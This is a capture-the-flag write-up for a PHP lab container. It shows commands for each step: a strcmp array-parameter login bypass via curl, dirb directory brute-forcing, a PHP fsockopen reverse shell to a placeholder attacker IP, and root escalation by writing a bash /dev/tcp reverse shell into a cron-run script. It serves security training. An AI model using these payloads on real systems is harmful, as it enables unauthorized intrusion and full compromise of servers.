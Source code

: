 # CTF 2: PHP Cracken

This uses the container [HightechSec/web-ctf-container](https://github.com/HightechSec/web-ctf-container/tree/master)
to get the PHP 7.3 version and instilled apache2 on it.

## Requirements
- [nmap](https://nmap.org/)
- [nc](https://www.kali.org/tools/netcat/#netcat-traditional)
- [wordlists](https://www.kali.org/tools/wordlists/) -> rockyou.txt, dirb/common.txt
- [dirb](https://www.kali.org/tools/dirb/)

## About Categorize
- Content Discovery
- Authentication Bypass
- Reverse Shell
- Privileges escalation

## Plan of Engagement
1. Port Scanning -> 80
2. Pick a challenge and exploit

## Solution
### Challenge 1
Use [PHP Strcmp](https://www.php.net/manual/en/function.strcmp.php) bypass.
This can be done by using the `?password[]=%22%22`.
Due to some inherent weaknesses in PHP's comparisons, NULL == 0 will return true.

```sh
 curl -X POST --data "username=admin&password[]=%22%22&submit=Login" http://127.0.0.1/admin/index.php
```

### Challenge 2
Use a Web Content Scanner to perform a dictionary-based attack against a web server. 
```sh
dirb http://127.0.0.1 /usr/share/wordlists/dirb/common.txt
```

### Challenge 3
Use Reverse Shell to gain a foothold in the system.
Using a tool like `netcat` to host the reverse shell.
```sh
php -r '$sock=fsockopen("<attacker_ip>",<attacker_port>);exec("/bin/sh -i <&3 >&3 2>&3");'
```
Once access to the server, the user should be `www-data` by Apache default.
Observe the ongoing processors in the contianers. The file `/worker.sh` is executing a job as root every 5th second.
The file `/home/job.sh` has write privileges.
Inject or overwrite a reverser shell command to the job.sh file of bash to call a new instance of netcat:
```sh
echo "bash -i >& /dev/tcp/<attacker_ip>/<attacker_port> 0>&1" > /home/job.sh
```
